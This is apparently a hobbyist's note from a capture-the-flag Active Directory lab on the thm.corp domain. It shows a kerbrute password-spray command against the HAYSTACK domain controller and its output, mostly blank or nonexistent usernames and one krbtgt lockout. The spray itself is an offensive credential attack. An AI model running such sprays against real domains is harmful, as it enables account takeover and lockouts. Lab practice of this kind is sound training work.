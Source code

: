 -------------------------------------------------------------------------------------------------------------

The Gu-gerardway user is interesting so is CH-ecu i might try those but LILY-ONEILL and DNSad stand out too

boy do I love snooping around AD aimlessly this better not be a bloodhound thing 

root@ip-10-201-62-243:~# kerbrute passwordspray -v -d thm.corp --dc HAYSTACK fixednames.txt password.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/09/25 - Ronnie Flathers @ropnop

2025/10/09 21:55:50 >  Using KDC(s):
2025/10/09 21:55:50 >  	HAYSTACK:88

2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] Domain@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] Domain@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Domain@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Domain@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] krbtgt@thm.corp:password.txt - USER LOCKED OUT
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] Schema@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] Group@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Key@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Domain@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] Protected@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Read-only@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Enterprise@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] RAS@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Cert@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] Denied@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] "" - Bad username: blank